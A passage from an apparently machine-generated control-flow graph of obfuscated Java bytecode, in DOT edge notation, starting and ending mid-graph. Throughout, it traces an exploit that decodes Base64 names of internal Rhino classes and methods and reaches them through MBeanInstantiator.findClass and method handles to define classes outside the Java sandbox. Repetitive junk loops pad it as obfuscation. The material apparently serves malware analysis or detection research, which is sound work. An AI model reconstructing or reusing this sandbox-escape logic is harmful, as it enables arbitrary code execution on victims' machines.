    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i r1";
    "store.i r1"->"load.i r1";
    "load.i r1"->"push 876";
    "ifcmpge.i load.r r64"
    "push 876"->"ifcmpge.i load.r r64";
    "ifcmpge.i load.r r64"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i r1 1";
    "inc.i r1 1"->"goto load.i r1";
    "load.r r64"
    "ifcmpge.i load.r r64"->"load.r r64";
    "push \"c3VuLm9yZy5tb3ppbGxhLmphdmFzY3JpcHQuaW50ZXJuYWwuR2VuZXJhdGVkQ2xhc3NMb2FkZXI=\""
    "load.r r64"->"push \"c3VuLm9yZy5tb3ppbGxhLmphdmFzY3JpcHQuaW50ZXJuYWwuR2VuZXJhdGVkQ2xhc3NMb2FkZXI=\"";
    "push \"c3VuLm9yZy5tb3ppbGxhLmphdmFzY3JpcHQuaW50ZXJuYWwuR2VuZXJhdGVkQ2xhc3NMb2FkZXI=\""->"staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>";
    "staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r1";
    "store.r r1"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i $r15"
    "push 0"->"store.i $r15";
    "load.i $r15"
    "store.i $r15"->"load.i $r15";
    "load.i $r15"->"push 876";
    "push 876"->"ifcmpge.i load.r r64";
    "ifcmpge.i load.r r64"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i $r15 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r15 1";
    "goto load.i $r15"
    "inc.i $r15 1"->"goto load.i $r15";
    "ifcmpge.i load.r r64"->"load.r r64";
    "push \"c3VuLm9yZy5tb3ppbGxhLmphdmFzY3JpcHQuaW50ZXJuYWwuQ29udGV4dA==\""
    "load.r r64"->"push \"c3VuLm9yZy5tb3ppbGxhLmphdmFzY3JpcHQuaW50ZXJuYWwuQ29udGV4dA==\"";
    "push \"c3VuLm9yZy5tb3ppbGxhLmphdmFzY3JpcHQuaW50ZXJuYWwuQ29udGV4dA==\""->"staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>";
    "staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>"->"push null";
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r64";
    "store.r r64"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r15";
    "store.i $r15"->"load.i $r15";
    "load.i $r15"->"push 876";
    "ifcmpge.i staticget <java.lang.Void: java.lang.Class TYPE>"
    "push 876"->"ifcmpge.i staticget <java.lang.Void: java.lang.Class TYPE>";
    "ifcmpge.i staticget <java.lang.Void: java.lang.Class TYPE>"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r15 1";
    "inc.i $r15 1"->"goto load.i $r15";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "ifcmpge.i staticget <java.lang.Void: java.lang.Class TYPE>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r $r15"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r $r15";
    "store.r $r15"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i $r13"
    "push 0"->"store.i $r13";
    "load.i $r13"
    "store.i $r13"->"load.i $r13";
    "load.i $r13"->"push 876";
    "ifcmpge.i push 3"
    "push 876"->"ifcmpge.i push 3";
    "ifcmpge.i push 3"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i $r13 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r13 1";
    "goto load.i $r13"
    "inc.i $r13 1"->"goto load.i $r13";
    "push 3"
    "ifcmpge.i push 3"->"push 3";
    "push 3"->"newarray";
    "store.r $r13"
    "newarray"->"store.r $r13";
    "load.r $r13"
    "store.r $r13"->"load.r $r13";
    "load.r $r13"->"push 0";
    "push 0"->"load.r i1";
    "load.r i1"->"arraywrite.r";
    "arraywrite.r"->"load.r $r13";
    "load.r $r13"->"push 1";
    "push 1"->"load.r r64";
    "load.r r64"->"arraywrite.r";
    "arraywrite.r"->"load.r $r13";
    "load.r $r13"->"push 2";
    "load.r $r15"
    "push 2"->"load.r $r15";
    "load.r $r15"->"arraywrite.r";
    "load.r $r18"
    "arraywrite.r"->"load.r $r18";
    "load.r $r18"->"load.r $r13";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r $r13"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r $r18";
    "store.r $r18"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r15";
    "store.i $r15"->"load.i $r15";
    "load.i $r15"->"push 876";
    "ifcmpge.i load.r $r18"
    "push 876"->"ifcmpge.i load.r $r18";
    "ifcmpge.i load.r $r18"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r15 1";
    "inc.i $r15 1"->"goto load.i $r15";
    "ifcmpge.i load.r $r18"->"load.r $r18";
    "load.r $i0"
    "load.r $r18"->"load.r $i0";
    "load.r $i0"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r $i0";
    "store.r $i0"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r18";
    "store.i $r18"->"load.i $r18";
    "load.i $r18"->"push 876";
    "ifcmpge.i load.r r1"
    "push 876"->"ifcmpge.i load.r r1";
    "ifcmpge.i load.r r1"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r18 1";
    "inc.i $r18 1"->"goto load.i $r18";
    "ifcmpge.i load.r r1"->"load.r r1";
    "push class \"Ljava/lang/ClassLoader;\""
    "load.r r1"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r $r18";
    "store.r $r18"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r15";
    "store.i $r15"->"load.i $r15";
    "load.i $r15"->"push 876";
    "ifcmpge.i push 4"
    "push 876"->"ifcmpge.i push 4";
    "ifcmpge.i push 4"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r15 1";
    "inc.i $r15 1"->"goto load.i $r15";
    "push 4"
    "ifcmpge.i push 4"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r $r15";
    "store.r $r15"->"load.r $r15";
    "load.r $r15"->"push 0";
    "push 0"->"load.r i1";
    "load.r i1"->"arraywrite.r";
    "arraywrite.r"->"load.r $r15";
    "load.r $r15"->"push 1";
    "push 1"->"load.r r64";
    "load.r r64"->"arraywrite.r";
    "arraywrite.r"->"load.r $r15";
    "load.r $r15"->"push 2";
    "push \"Y3JlYXRlQ2xhc3NMb2FkZXI=\""
    "push 2"->"push \"Y3JlYXRlQ2xhc3NMb2FkZXI=\"";
    "push \"Y3JlYXRlQ2xhc3NMb2FkZXI=\""->"staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>";
    "staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r15";
    "load.r $r15"->"push 3";
    "push 3"->"load.r $r18";
    "load.r $r18"->"arraywrite.r";
    "arraywrite.r"->"load.r $r6";
    "load.r $r6"->"load.r $r15";
    "load.r $r15"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r r64";
    "store.r r64"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r18";
    "store.i $r18"->"load.i $r18";
    "load.i $r18"->"push 876";
    "push 876"->"ifcmpge.i push 2";
    "ifcmpge.i push 2"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r18 1";
    "inc.i $r18 1"->"goto load.i $r18";
    "ifcmpge.i push 2"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r $r18";
    "store.r $r18"->"load.r $r18";
    "load.r $r18"->"push 0";
    "push 0"->"load.r $i0";
    "load.r $i0"->"arraywrite.r";
    "arraywrite.r"->"load.r $r18";
    "load.r $r18"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r64";
    "load.r r64"->"load.r $r18";
    "load.r $r18"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r $i0";
    "store.r $i0"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i r64"
    "push 0"->"store.i r64";
    "load.i r64"
    "store.i r64"->"load.i r64";
    "load.i r64"->"push 876";
    "ifcmpge.i push class \"Ljava/lang/Class;\""
    "push 876"->"ifcmpge.i push class \"Ljava/lang/Class;\"";
    "ifcmpge.i push class \"Ljava/lang/Class;\""->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i r64 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i r64 1";
    "goto load.i r64"
    "inc.i r64 1"->"goto load.i r64";
    "ifcmpge.i push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r64";
    "store.r r64"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r18";
    "store.i $r18"->"load.i $r18";
    "load.i $r18"->"push 876";
    "push 876"->"ifcmpge.i push 4";
    "ifcmpge.i push 4"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r18 1";
    "inc.i $r18 1"->"goto load.i $r18";
    "ifcmpge.i push 4"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r $r18";
    "store.r $r18"->"load.r $r18";
    "load.r $r18"->"push 0";
    "push 0"->"load.r i1";
    "load.r i1"->"arraywrite.r";
    "arraywrite.r"->"load.r $r18";
    "load.r $r18"->"push 1";
    "push 1"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r $r18";
    "load.r $r18"->"push 2";
    "push \"ZGVmaW5lQ2xhc3M=\""
    "push 2"->"push \"ZGVmaW5lQ2xhc3M=\"";
    "push \"ZGVmaW5lQ2xhc3M=\""->"staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>";
    "staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r18";
    "load.r $r18"->"push 3";
    "push 3"->"load.r r64";
    "load.r r64"->"arraywrite.r";
    "arraywrite.r"->"load.r $r6";
    "load.r $r6"->"load.r $r18";
    "load.r $r18"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r i1";
    "store.r i1"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r6";
    "store.i $r6"->"load.i $r6";
    "load.i $r6"->"push 876";
    "push 876"->"ifcmpge.i push 3";
    "ifcmpge.i push 3"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
